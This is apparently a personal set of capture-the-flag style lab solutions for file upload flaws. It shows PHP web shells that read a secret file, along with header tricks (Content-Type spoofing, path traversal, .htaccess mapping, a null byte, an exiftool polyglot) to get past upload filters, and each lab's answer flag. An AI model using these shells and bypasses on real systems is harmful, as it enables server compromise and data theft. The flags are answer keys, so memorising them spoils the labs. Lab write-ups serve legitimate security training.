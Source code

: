 ### Remote code execution via web shell upload

I need to upload a PHP web shell, and get the contents of /home/carlos/secret

I uploaded this shell:
```php
<?php
	$output = shell_exec('cat /home/carlos/secret');
	echo "<pre>$output</pre>";
?>
```

Answer: `cAzbIo9fYoVtxfOLqigF6adiLmwMzqmL`

---
### Web shell upload via Content-Type restriction bypass

I need to upload a PHP web shell, and get the contents of /home/carlos/secret

We use the same code snippet as before, but in this case, we modified the header, from this:
`Content-Type: application/x-php` to this: `Content-Type: image/jpeg`

Answer: `H1GYaB6KL7VDZHNwiTUkEu2BSk5Ep1bG`

---
### Web shell upload via path traversal

I need to upload a PHP web shell, and get the contents of /home/carlos/secret, but to do it I need to exploit first a path traversal vulnerability.

This is achieved by changing a header , from this:
`Content-Disposition; form-data; name="avatar"; filename="web.php"` to this: 
`Content-Disposition: form-data; name="avatar"; filename="..%2fweb.php"` with the '/'  url encoded 

Answer: `NjjgMnVgkE48DCLED7ki4jLQmjHFmUm6`

> Personal Note: Trust yourself, just give it a little work around sometimes. 

---
### Web shell upload via extension blacklist bypass

I need to upload a PHP web shell, and get the contents of /home/carlos/secret, but to do it I need to avoid a file extension filter.

This is achieved by changing the filename value in the header `Content-Disposition`: `filename=.htaccess` and the header `Content-Type: text/plain`

This will be my payload instead of my php code: `AddType application/x-httpd-php .l33t`

>This maps an arbitrary extension (`.l33t`) to the executable MIME type `application/x-httpd-php`. As the server uses the `mod_php` module, it knows how to handle this already.

After doing this, we replace the body for our original php payload, and change the filename to "exploit.l33t". We'll see the successful upload, and in the other tab we can call the file with `/files/avatars/exploit.l33t`

Answer: `Jn0unw5oBfHYpQ3HXvYyvXNRzlDAr13e`

Explanation: We are uploading a `.htaccess` file, with some directives specifying how to "interpret" the .l33t extension. After that, we can upload our extension will be trated as a php.

---
### Web shell upload via obfuscated file extension

After log in, upload a new avatar, and see the GET request is to /files/avatar/YOUR_IMAGE. 

Create a php file with the following content: `<?php echo file_get_contents('/home/carlos/secret'); ?>`

If you try to upload this file, you will see it's impossible because it's validating the file extension. So we'll use the null byte technique

Try to upload your php file, intercept the POST request and modify the filename to `exploit.php%00.jpg` and it will say 200 OK.

Now use your GET to call your already uploaded file. 

Answer: `q33uFOQBf2iUFNTxNqkx9O2jHNr9Sx9y`

---
### Remote code execution via polyglot web shell upload

If you try to upload the "exploit.php" file with the command execution, is not possible. So, using exiftool we can do a polyglot as follows: 

``exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php``

If you use the GET request to get your file "polyglot.php" you can see the answer and look for "START" and "END". The answer will be between those words.

Answer: `2B2tlPyJQfJDynyKME5D02Cw0ouydMpZ`